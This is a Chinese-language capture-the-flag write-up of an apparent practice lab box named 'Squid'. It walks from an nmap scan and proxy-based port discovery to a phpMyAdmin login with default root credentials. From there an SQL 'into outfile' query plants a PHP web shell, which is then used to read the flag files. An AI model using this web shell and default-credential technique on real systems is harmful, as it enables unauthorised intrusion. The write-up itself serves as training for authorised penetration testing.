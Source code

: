 # Squid

### Nmap Scaning 

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A 192.168.115.189 -p-

[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-06 15:18 CST
Nmap scan report for 192.168.115.189
Host is up (0.074s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-06T07:22:18
|_  start_date: N/A
|_clock-skew: 1m12s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   74.56 ms 192.168.45.1
2   74.48 ms 192.168.45.254
3   74.93 ms 192.168.251.1
4   75.11 ms 192.168.115.189

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 220.22 seconds
```

特別的就是 port 3128 [Squid](https://www.squid-cache.org/) 服務了，上網查是一種 proxy 服務。 連上去只有錯誤畫面但是找到版號 4.14，但是透過 Searchsploit 沒看到什麼符合的 exploit。

![](img/Squid/1.png)

使用 Spose 掛上 Squid proxy 再掃描一次

```
┌──(kali㉿kali)-[~/Desktop/tmp_pen200/spose]
└─$ python spose.py --proxy http://192.168.115.189:3128 --target 192.

168.115.189            
Scanning default common ports
Using proxy address http://192.168.115.189:3128
192.168.115.189:3306 seems OPEN
192.168.115.189:8080 seems OPEN
```

確定有 port 之後，接上 proxy 重新連結。成功連上port 8080，是 Wampserver 的預設頁面
![](img/Squid/2.png)

### Login phpmyadmin using default credential

用 root/(empty) 登入資料庫（http://target_ip/phpmyadmin），再用以下 SQL 指令將 command shell 寫入至網站中
```
select '<?php system($_GET["cmd"]); ?>;' into outfile 'C:/wamp/www/shell.php' 
```

在連線至 http://target_ip/shell.php?cmd=whoami 確認 command 上傳成功

![](img/Squid/3.png)

### Use the command to find the `local.txt` and `proof.txt`

接著透過搜尋指令尋找 C 槽底下所有的記事本，找出儲存 flag 的 `local.txt` 和 `proof.txt`

![](img/Squid/4.png)

分別在：
- `C:\local.txt`
- `C:\Users\Administrator\Desktop\proof.txt`

再透過 type 指令將它印出，成功取得兩個 flag

![](img/Squid/5.png)
